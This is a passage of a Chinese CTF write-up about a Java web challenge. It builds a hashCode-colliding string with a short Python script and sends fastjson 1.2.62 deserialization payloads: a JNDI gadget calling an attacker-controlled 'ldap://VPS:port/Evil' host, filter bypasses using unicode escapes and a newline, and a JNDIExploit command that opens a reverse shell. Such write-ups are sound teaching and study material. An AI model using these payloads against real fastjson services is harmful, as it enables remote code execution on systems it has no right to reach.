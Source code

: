首先要构造一个str满足`hashCode`相同但是字符不同

构造方法直接将第一个字符ascii码大小-1,第二个字符ascii码大小+31,以下为简易的构造脚本,原理可以看[Java 构建 HashCode 相同的字符串](https://blog.csdn.net/weixin_44245828/article/details/109853439)

```python
from urllib import parse

while 1:
    key=input("#")
    print(parse.quote(chr(ord(key[0]) - 1) + chr(ord(key[1]) + 31) + key[2::]))
```

拿到符合条件的`str`参数后,构造fastjson反序列化的`input`参数

<http://eci-2zeeu1iidjoq6vzyipkg.cloudeci1.ichunqiu.com:8888/json> 将str和input通过POST传输进行测试

```http
str=G`xnUP8l4U0Sv7uE
&input= {
    "poc": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.alibaba.fastjson.JSONReader",
        "reader": {
            "@type": "jdk.nashorn.api.scripting.URLReader",
            "url": "http://vps:9999"
        }
    }
}
```

使用`JSONReader`探测确认反序列化确实可用,然后使用fastjson 1.2.62(一幕环境fastjson版本)的黑名单绕过exp：

```php
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://VPS:port/Evil"}";
```

但是需要变一下,以绕过`jndi`,`rmi`,`ldap`,`\x`的过滤,可以使用unicode编码(其实也可以使用16进制\\x,但是这里`\x`被过滤了)

```http
str=xxxxxxxx&input={"@type":"org.apache.xbean.propertyeditor.\u004a\u006e\u0064\u0069Converter","AsText":"\u006c\u0064\u0061\u0070://VPS:port/Evil"}
```

此外对于远程资源加载的`Pattern.compile`匹配我们可以使用换行`%0a`完成绕过

```http
str=xxxxxxxx&input={"@type":"org.apache.xbean.propertyeditor.\u004a\u006e\u0064\u0069Converter","AsText":"%0aldap://VPS:port/Evil"}
```

结合使用工具`JNDIExploit`最终反弹shell拿到flag

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i vps -p 8080 -l 8089
```

详细操作可参考https://www.anquanke.com/post/id/232774

5.2 file\_session
-----------------
